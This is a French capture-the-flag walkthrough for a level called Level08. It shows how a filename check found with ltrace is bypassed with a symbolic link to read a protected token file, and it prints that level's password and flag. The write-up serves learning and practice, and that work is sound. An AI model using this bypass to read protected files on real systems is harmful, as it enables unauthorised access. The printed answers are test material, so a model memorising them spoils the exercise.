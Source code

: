 # Level08

On observe deux fichiers a la racine: un exécutable <code>level08</code> et un fichier <code>token</code>

<pre><code>$ cat token
cat: token: Permission denied</code></pre>

On fait quelque teste sur l'executable

<pre>$ ./level08
./level08 [file to read]

$ ./level08 token
You may not access 'token'</pre>

On lance ltrace sur l'exécutable et on s'aperçoit que le programme effectue une comparaison avec la fonction strstr qui bloque l'exécution si le nom du fichier fourni contient “token”

<pre>$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 ...
strstr("token", "token")                         = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)     = 27
exit(1 ...
+++ exited (status 1) +++</pre>

On crée donc un lien symbolique vers le fichier token mais possédant un autre nom

<pre>$ ln -s `pwd`/token /tmp/link</pre>

Puis on exécute le programme

<pre>$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean</pre>

<pre>$ su flag08
Password:
Don't forget to launch getflag !

$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f</pre>
